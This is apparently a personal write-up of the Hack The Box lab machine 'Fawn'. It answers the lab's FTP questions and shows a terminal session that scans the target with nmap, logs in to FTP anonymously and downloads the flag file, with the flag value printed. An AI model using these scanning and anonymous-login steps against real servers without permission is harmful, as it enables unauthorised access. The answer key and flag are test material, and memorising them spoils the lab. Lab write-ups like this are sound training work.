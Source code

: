 ```yaml
---
title: HTB - Fawn 
date: 2022-09-22
categories: [HackTheBox, Machines]
tags: [ftp]
---
```


# Fawn

What does the 3-letter acronym FTP stand for?

`File Transfer Protocol`

Which port does the FTP service listen on usually?

`21`

What acronym is used for the secure version of FTP?

`SFTP`

What is the command we can use to send an ICMP echo request to test our connection to the target?

`ping`

From your scans, what version is FTP running on the target?

`vsftpd 3.0.3`

From your scans, what OS type is running on the target?

`Unix`

What is the command we need to run in order to display the 'ftp' client help menu?

`ftp -h`

What is username that is used over FTP when you want to log in without having an account?

`anonymous`

What is the response code we get for the FTP message 'Login successful'?

`230`

There are a couple of commands we can use to list the files and directories available on the FTP server. One is *dir*. What is the other that is a common way to list files on a Linux system.

`ls`

What is the command used to download the file we found on the FTP server?

`get`

Submit root flag:

```bash
$ nmap -p- -sV <ip>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

$ ftp <ip>
Connected to <ip>.
220 (vsFTPd 3.0.3)

Name (<ip>:root): anonymous
331 Please specify the password.

Password: <blank>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (151.6990 kB/s)

ftp> exit
221 Goodbye.

$ cat flag.txt 
035db21c881520061c53e0536e44f815
```
